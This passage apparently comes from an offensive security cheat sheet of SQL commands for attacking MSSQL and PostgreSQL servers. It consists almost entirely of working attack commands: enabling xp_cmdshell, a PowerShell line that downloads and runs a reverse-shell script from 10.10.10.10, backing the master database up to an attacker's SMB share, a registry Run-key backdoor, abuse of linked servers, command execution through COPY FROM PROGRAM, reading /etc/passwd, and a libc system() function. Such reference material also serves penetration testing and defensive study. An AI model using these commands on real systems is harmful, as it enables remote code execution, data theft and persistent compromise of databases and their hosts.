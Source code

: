 #### MSSQL

```sql
# Command execution via xp_cmdshell
EXEC sp_configure 'show advanced options', 1;  # Enable advanced options
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;           # Enable xp_cmdshell
RECONFIGURE;
EXEC xp_cmdshell 'whoami';                    # Execute commands
EXEC xp_cmdshell 'powershell IEX (New-Object Net.WebClient).DownloadString("http://10.10.10.10/rev.ps1")';

# File operations
# Access SMB share
EXEC xp_dirtree '\\10.10.10.10\share';
# Backup database to attacker's share
BACKUP DATABASE master TO DISK = '\\10.10.10.10\share\backup.bak';

# Registry operations
EXEC xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion','ProductName';
EXEC xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows\CurrentVersion\Run','backdoor','REG_SZ','C:\backdoor.exe';

# Linked servers abuse
SELECT * FROM OPENQUERY(remote_server, 'SELECT @@version');  # Query linked server
EXEC('EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE') AT linked_server;  # Enable xp_cmdshell on linked server
```

#### PostgreSQL

```sql
# File operations
CREATE TABLE cmd_exec(cmd_output text);           # Create table for command output
COPY cmd_exec FROM PROGRAM 'whoami';             # Execute command and store output
SELECT * FROM cmd_exec;                          # Read command output

# Large object operations for file reading/writing
SELECT lo_import('/etc/passwd', 12345);          # Import file as large object
SELECT lo_get(12345);                            # Read large object
SELECT lo_export(12345, '/tmp/passwd');          # Export large object to file

# Command execution with extensions
CREATE EXTENSION IF NOT EXISTS dblink;            # Enable dblink
SELECT dblink_connect('host=10.10.10.10 user=postgres password=password');  # Connect to remote server
SELECT dblink_exec('DROP TABLE IF EXISTS cmd_exec');  # Execute commands on remote server

# User defined functions for privilege escalation
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE C STRICT;
SELECT system('whoami');                         # Execute system commands
```
